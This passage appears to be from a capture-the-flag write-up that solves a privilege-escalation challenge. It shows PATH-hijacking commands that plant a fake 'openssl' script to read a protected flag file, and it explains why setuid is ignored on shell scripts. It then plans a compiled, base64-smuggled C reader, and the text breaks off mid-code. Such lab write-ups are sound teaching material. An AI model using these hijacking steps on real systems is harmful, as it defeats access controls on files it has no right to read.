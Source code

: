 (Let's keep it simple first; once we have the file content, decrypting should be trivial.)

Creating that file isn't too easy though, since we don't have any editor. But we can use `echo` for it:
```bash
echo '#!/bin/bash
cat /app/flag.enc' > /home/ctf/openssl
# ...then make it executable
chmod +x /home/ctf/openssl
# ...and pretend it to the PATH
export PATH="/home/ctf:$PATH"
```

Then we can run `cli` and enter nothing as key:
```bash
./cli
Guess when I was encrypted ([YYYY]-[MM]-[DD]T[HH]:[MM]:[SS]+[HH]:[MM]): 

cat: /app/flag.enc: Permission denied
The guessed date is incorrect. Try again!
```

It didn't work! Why did we still get a permission denied??

### What is a program anyway?

To figure out what happened, we can get back to our local machine and create another script (let's call it `script.sh`):
```bash
#!/bin/bash
echo $EUID
```

If we just make it executable and own it by root
```bash
chmod +x script.sh
sudo chown root:root script.sh
```

and run it we still get a `1000`, indicating a non-root user.

However, *even* after setting the `setuid` bit with `sudo chmod u+s script.sh`, we still get a `1000`.
That's because this bit is [ignored on interpreted executables](https://unix.stackexchange.com/a/2910), like a `bash` script.

So *that's* why `gcc` was uninstalled: Otherwise we could've just written a C script and compiled it on the server. C, after all, isn't interpreted.

### base64 magic

Instead we can write a C program locally, compile it locally, encode the file with `base64`, copy the encoded content to the server, decode it and execute it.

Ok, step by step, first the C program. It just needs to print file content, so we can [copy something from online](https://www.geeksforgeeks.org/c-program-print-contents-file/) for that:
```C
#include <stdio.h> 
#include <stdlib.h> // For exit() 
  
int main() 
{ 
    FILE *fptr; 
  
    char filename[100], c; 
  
    printf("Enter the filename to open \n"); 
    scanf("%s", filename); 
  
```